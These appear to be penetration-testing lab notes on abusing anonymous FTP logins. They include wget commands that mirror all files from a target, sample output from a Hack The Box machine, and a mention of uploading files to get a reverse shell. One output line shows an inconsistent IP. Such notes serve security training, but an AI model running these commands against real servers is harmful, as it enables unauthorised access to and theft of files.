 

# Anonymous Authentication Misconfiguration
--> Use null authentication 
--> Can add credentials when needed

**Can**
- Get Files
- Upload Files (If the ftp files are accessible on the web app, you can get a reverse shell)
- Etc..

**Use**
- wget
- ftp
- Etc..
## Download All Available Files

```shell
wget -m --no-passive ftp://anonymous:anonymous@<% tp.frontmatter["RHOSTS"] %>
```

```shell
wget -m --no-passive ftp://[username]:[password]@[ip]
```

**Example**
```shell
BluePho3nix@htb[/htb]$ wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136

--2021-09-19 14:45:58--  ftp://anonymous:*password*@10.129.14.136/                                         
           => ‘10.129.14.136/.listing’                                                                     
Connecting to 10.129.14.136:21... connected.                                                               
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> PORT ... done.    ==> LIST ... done.                                                                 
12.12.1.136/.listing           [ <=>                                  ]     466  --.-KB/s    in 0s       
                                                                                                         
2021-09-19 14:45:58 (65,8 MB/s) - ‘10.129.14.136/.listing’ saved [466]                                     
--2021-09-19 14:45:58--  ftp://anonymous:*password*@10.129.14.136/Calendar.pptx   
           => ‘10.129.14.136/Calendar.pptx’                                       
==> CWD not required.                                                           
==> SIZE Calendar.pptx ... done.                                                                                                                            
==> PORT ... done.    ==> RETR Calendar.pptx ... done.       

...SNIP...

2021-09-19 14:45:58 (48,3 MB/s) - ‘10.129.14.136/Employees/.listing’ saved [119]

FINISHED --2021-09-19 14:45:58--
Total wall clock time: 0,03s
Downloaded: 15 files, 1,7K in 0,001s (3,02 MB/s)


BluePho3nix@htb[/htb]$ tree .

.
└── 10.129.14.136
```